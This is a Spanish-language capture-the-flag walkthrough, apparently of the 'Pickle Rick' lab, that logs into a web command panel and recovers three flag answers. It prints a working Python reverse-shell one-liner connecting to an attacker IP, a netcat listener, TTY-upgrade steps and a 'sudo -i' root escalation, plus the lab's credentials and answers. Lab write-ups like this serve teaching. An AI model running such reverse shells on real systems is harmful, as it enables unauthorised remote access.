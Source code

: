 # Pa dentrooooooooo !!!!! 

Sabemos que tenemos un usuario y una contraseña potencial, así que intentaremos.

```bash
Username: R1ckRul3s
Password: Wubbalubbadubdub
```

**Perfecto !!!** hemos obtenido acceso.

Tenemos varias secciones, pero si les soy sincero, me interesa más la de commands.

![rId20](img/rId31.png)

Algo que podemos realizar es ver, si podemos ejecutar comandos directamente desde aquí, daremos un ls, y vemos que podemos contestar la primera pregunta si hacemos un **cat Sup3rS3cretPickl3Ingred.txt**

![rId20](img/rId33.png)

Vemos que la página es un poco troll, y al hacer cat no nos deja, pues... lo que haremos es ver si podemos hacer ejecución de otros binarios que nos puedan permitir una reverse shell, por ejemplo con python 3, si usamos el siguiente comando podemos comprobar:

```bash
python3 -c "print('Jamiel')"
```

![rId20](img/rId35.png)

**Yupii !!!!** Vemos que tenemos ejecución, por lo tanto usaremos in oneliner con python3 que nos permitirá ganar acceso a la máquina directamente: 

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.54.248",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Para esto en paralelo tendremos que correr nuestro netcat en nuestra terminal:

```bash 
nc -lnvp 1234
```

!!! Info
    **Esto se tiene que hacer antes de ejecutar el onliner de python3**

Una vez tengamos ready el el **netcat**, ejecutamos nuestro **oneliner**, recordar que tenemos que ajustar la ip y el puerto según nuestros requerimientos y pufff, hemos obtenido acceso al serv.

![rId20](img/rId37.png)

Ahora si podemos ver el primer ingrediente

![rId20](img/rId39.png)

**mr. meeseek hair**

Una buena práctica es ejecutar las siguientes lineas mostradas abajo, para poder crear una consola mucho más interactiva:

```bash
script /dev/null -c bash
control z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

Ya que tenemos nuestra consola interactiva, procedemos a buscar nuestro segundo ingrediente. Primero buscaremos entre los archivos de la ruta /var/www/html, me encontré que el archivo clue.txt dice lo mostrado en la imagen.

![rId20](img/rId41.png)


!!! Pregunta-1 
    **What is the first ingredient Rick needs?**

    mr. meeseek hair

---------------------------------------

Leido lo que dice el archivo, y deduciendo que es una máquina easy, fuimos a home, encontramos un user llamado rick, accedemos a su dir y encontraremos al archivo que buscamos.

![rId20](img/rId43.png)

!!! Pregunta-2
    **Whats the second ingredient Rick needs?**

    1 jerry tear

----------------------------------------

Por deducción, imagino que el tercer archivo debe estar dentro de root, pero para poder acceder a este dir necesitamos tener privilegios, uno de los comandos más comunes que tenemos que utilizar es "**sudo -i**" y efectivamente tenemos el root, ya podemos dirigirnos a /root y hacerle un cat a nuestro tercer archivo.

![rId20](img/rId45.png)

!!! Pregunta-3
    **Whats the final ingredient Rick needs?**
 
    fleeb juice
